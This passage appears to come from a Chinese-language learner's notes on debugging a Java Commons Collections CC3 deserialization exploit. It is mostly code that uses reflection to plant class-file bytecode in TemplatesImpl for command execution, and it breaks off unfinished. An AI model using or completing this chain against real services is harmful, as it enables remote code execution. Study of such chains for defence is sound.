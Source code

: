 ### EXP 问题：

#### 问题一：

对必要的值赋完以后的代码 EXP 是这样：但发生了空指针的报错：

```plain
package EXP;

import com.sun.org.apache.xalan.internal.utils.ObjectFactory;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;


import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.security.AccessController;
import java.security.PrivilegedAction;
import java.util.HashMap;
import java.util.Map;

public class CC3Test {
    public static void main(String[] args) throws Exception{

    TemplatesImpl templates = new TemplatesImpl();
    //_name赋值，否则代码return中止
    Class tc = templates.getClass();
    Field nameField = tc.getDeclaredField("_name");
    nameField.setAccessible(true);
    nameField.set(templates,"aaa");
    //private byte[][] _bytecodes = null;如果为null，报出异常；
    //同时满足这个loader.defineClass(_bytecodes[i]);
    //Class defineClass(final byte[] b) {
    //            return defineClass(null, b, 0, b.length);
    //        }
    Field bytecodeField = tc.getDeclaredField("_bytecodes");
    bytecodeField.setAccessible(true);
    //一维数组满足defineClass参数从而命令执行
    byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXP/Demo.class"));
    //二维数组满足：
           // private byte[][] _bytecodes = null;如果为null，报出异常；
           //同时满足这个loader.defineClass(_bytecodes[i]);
    byte[][] codes = {code};
    bytecodeField.set(templates,codes);
    //避免_tfactory为空指针而报错
//    TemplatesImpl.TransletClassLoader loader = (TemplatesImpl.TransletClassLoader)
//            AccessController.doPrivileged(new PrivilegedAction() {
//                public Object run() {
//                    return new TemplatesImpl.TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
//                }
//            });
    Field tfactoryField = tc.getDeclaredField("_tfactory");
```
